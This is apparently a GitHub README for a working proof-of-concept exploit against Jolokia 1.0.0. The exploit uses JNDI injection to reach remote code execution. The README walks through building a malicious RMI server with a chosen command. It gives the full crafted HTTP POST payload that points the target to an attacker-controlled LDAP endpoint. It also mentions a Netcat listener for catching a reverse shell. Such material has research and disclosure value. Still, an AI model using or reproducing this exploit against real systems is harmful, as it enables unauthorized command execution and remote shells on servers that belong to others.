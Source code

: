 # Jolokia 1.0.0 JNDI Injection leading to RCE

Working POC code for Jolokia RCE

## Steps to Reproduce:

1. Clone the current Repository.
2. Edit the java file `src/main/java/ExportObject.java` and enter the command that you wish to execute remotely.
3. Execute `mvn clean install` to build the jar file.
4. Execute `java -jar RMIServer-0.1.0.jar http://<server_ip>:port_1/#ExportObject port_2
` to create a malicious server. 
5. Send the following request to your target server.

```
POST /jolokia/ HTTP/1.1 
Host: target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55 
Connection: close 
Content-Type: application/x-www-form-urlencoded 
 
{
    "type" : "read",
    "mbean" : "java.lang:type=Memory",
    "target" : { 
        "url" : "service:jmx:rmi:///jndi/ldap://<server_ip>:port_2/jmxrmi"
    } 
}
```

This will execute the command that you have specified in the `ExportObject.java` file

Note that if you are trying to create a Remote shell, then you will have to open a Netcat Listner on your server at `port_r` specified in `ExportObject.java` file


Reference:
https://blog.gdssecurity.com/labs/2018/4/18/jolokia-vulnerabilities-rce-xss.html


